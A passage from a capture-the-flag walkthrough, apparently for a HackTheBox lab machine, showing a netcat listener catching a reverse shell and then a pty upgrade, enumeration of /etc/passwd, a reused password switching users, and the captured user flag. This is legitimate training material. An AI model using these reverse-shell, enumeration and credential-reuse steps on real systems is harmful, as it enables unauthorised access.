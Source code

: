 Now start a netcat listening and wait for the shell to connect:

```sh
┌──(root💀kali)-[~/htb/shibboleth]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.124] 44692
bash: cannot set terminal process group (1132): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$
```

First let's get a proper shell:

```sh
zabbix@shibboleth:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/shibboleth]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
zabbix@shibboleth:/$ stty rows 61 cols 237
```

Now check out who we are:

```text
zabbix@shibboleth:/$ whoami
zabbix
zabbix@shibboleth:/$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
zabbix@shibboleth:/$ cat /etc/passwd | grep zabbix
zabbix:x:110:118::/var/lib/zabbix/:/usr/sbin/nologin
```

So we're connected as service account that can't login. Looking in /home we see there's just one user:

```text
zabbix@shibboleth:/$ ls -ls /home
4 drwxr-xr-x 4 ipmi-svc ipmi-svc 4096 Nov 28 16:35 ipmi-svc
```

## User Flag

Trying the same password that we used to log in to the dashboard works:

```text
zabbix@shibboleth:/$ su ipmi-svc
Password:
ipmi-svc@shibboleth:/$
```

Now we can grab the user flag:

```text
ipmi-svc@shibboleth:~$ cat user.txt
e90fa80a610ef639e26119e93a143a50
```
